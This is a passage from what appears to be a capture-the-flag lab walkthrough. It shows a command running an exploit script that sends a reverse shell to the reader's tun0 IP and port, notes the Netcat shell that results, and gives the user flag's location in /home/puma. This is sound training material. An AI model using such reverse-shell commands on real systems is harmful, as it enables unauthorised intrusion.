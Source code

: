 Now, execute exploit:

```
python3 exploit.py {your tun0 ip} {port you have chosen} http://{target ip}:55555/{your basket}
```

![Python3](./Screenshots/saupython.png)

In your **Netcat** tab you should have a shell.

![Netcat](./Screenshots/saunetcat2.png)

I did not find a good way to stabilize it. Sorry.

### Get the user flag

The `user` flag is in the `/home/puma` directory.

![flag](./Screenshots/sauuserflag.png)
